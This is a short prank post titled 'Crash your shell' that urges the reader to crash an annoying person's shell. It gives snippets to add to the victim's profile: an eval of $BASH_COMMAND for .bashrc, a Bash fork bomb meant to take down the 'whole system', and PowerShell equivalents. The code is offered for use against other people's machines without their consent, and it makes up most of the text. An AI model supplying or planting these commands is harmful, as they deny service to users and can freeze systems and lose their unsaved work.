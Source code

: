 # Crash your shell
*2019-3-14*

Is someone annoying you? Crash their shell with just a few lines of code.

### Usage
Try adding these commands to the shell's profile. :laughing:

#### Bash
Just add this to their [`.bashrc`] <sup>[1]</sup>:
```bash
eval "$BASH_COMMAND"
```
Or even their whole system:
```bash
:(){ :|:& };:
```

#### PowerShell 5
```powershell
$? = True
```

#### PowerShell 6
```
function i { i|i& };i
```

More coming soon.

---
### Notes
1. See https://github.com/dylanaraps/blag/blob/master/src/future/breaking-bash.md

